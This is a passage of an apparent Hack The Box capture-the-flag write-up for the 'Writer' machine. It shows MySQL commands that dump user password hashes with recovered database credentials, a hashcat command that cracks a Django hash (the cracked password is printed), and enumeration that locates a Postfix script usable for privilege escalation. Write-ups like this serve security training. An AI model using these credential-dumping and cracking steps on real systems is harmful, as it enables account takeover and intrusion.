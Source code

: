 ```bash
# stty -a
stty rows 82 columns 174
```

Anyway, on with the hunt:

```bash
mysql -D'writer' -u'admin' -p'ToughPasswordToCrack' -e'show tables;'
mysql -D'writer' -u'admin' -p'ToughPasswordToCrack' -e'select username, password from users;'
# +----------+----------------------------------+
# | username | password                         |
# +----------+----------------------------------+
# | admin    | 118e48794631a9612484ca8b55f622d0 |
# +----------+----------------------------------+
```

Not great. Next is the Django database:

```bash
mysql -h'127.0.0.1' -D'dev' -u'djangouser' -p'DjangoSuperPassword' -e'show tables;'
mysql -h'127.0.0.1' -D'dev' -u'djangouser' -p'DjangoSuperPassword' -e'select * from auth_user;'
# +----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
# |  1 | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= | NULL       |            1 | kyle     |            |           | kyle@writer.htb |        1 |         1 | 2021-05-19 12:41:37.168368 |
# +----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
```

There we go! Crack it:

```bash
# hashcat --help | grep -ia django
hashcat -a 0 -m 10000 kyle.hash /usr/share/wordlists/passwords/rockyou.txt
```

> marcoantonio

## Kyle to John

```bash
sudo -l
# Sorry, user kyle may not run sudo on writer.
groups
# kyle filter smbgroup
find / -type f \( -group smbgroup -o -group filter \) 2>/dev/null
# /etc/postfix/disclaimer
```

Ok, I'm completely clueless when it comes to SMTP & Postfix:
time for [more googling][hacktricks-smtp].

If I bought Hacktricks a coffee everytime I'd be broke! As usual it delivers:
the script `/etc/postfix/disclaimer` is executed when a user receives mail.


[author-profile]: https://app.hackthebox.eu/users/114053
[check-payload]: images/check-payload.png
[hacktricks-smtp]: https://book.hacktricks.xyz/pentesting/pentesting-smtp
[sqli]: images/sqli.png
[trigger-payload]: images/trigger-payload.png
[upload-image]: images/upload-image.png
